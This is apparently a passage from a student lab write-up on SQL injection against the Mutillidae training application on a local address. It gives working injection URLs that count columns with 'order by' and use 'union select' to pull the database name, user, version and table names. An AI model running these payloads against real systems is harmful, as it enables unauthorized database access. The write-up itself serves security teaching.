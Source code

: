 http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27order%20by%206%23&password=&user-info-php-submit-
button=View+Account+Details

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/af80e109-f0e2-4a48-8e66-81580ca81a82)

After adding the order by 6 into the existing url , the following error statement will be obtained:

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/98e3f8a7-7126-4f5b-a5c0-b056de98dc56)

When we ordered by 5, it worked and displayed some information. It means there are five columns that 
we can work with. Following screenshot shows that the url modified to have statement added with ordered by 5 replacing 6.

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/5370e1f7-f108-4afe-8834-f160fe4164c4)

As it is having 5 columns the query worked fine and it provides the correct result

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/ac83acf1-82ca-49ce-a344-02d1be7933e4)

Instead of using the "order by" option, let’s use the "union select" option and provide all
five columns. Ex: (union select 1,2,3,4,5).

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/c7fb39b3-82dc-4e51-98b3-6d74557baed5)

As given in the screenshot below columns 2,3,4 are usable in which we can substitute any 
sql commands to extract necessary information.

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/509c8830-d6ef-4b38-989e-12e12584c12b)

Now we will substitute some few commands like database(), user(), version() to obtain the information 
regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,
database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details

![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/16c80ad9-1a4e-4710-a4d7-1618d32bea36)

The url when executed, we obtain the necessary information about the database name owasp10, 
username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” 
contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from 
information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,
table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27
owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details


![image](https://github.com/Thanikasreeb/sqlinjection/assets/119557910/00f2cd7c-b5d5-477a-b063-0e353b31938b)
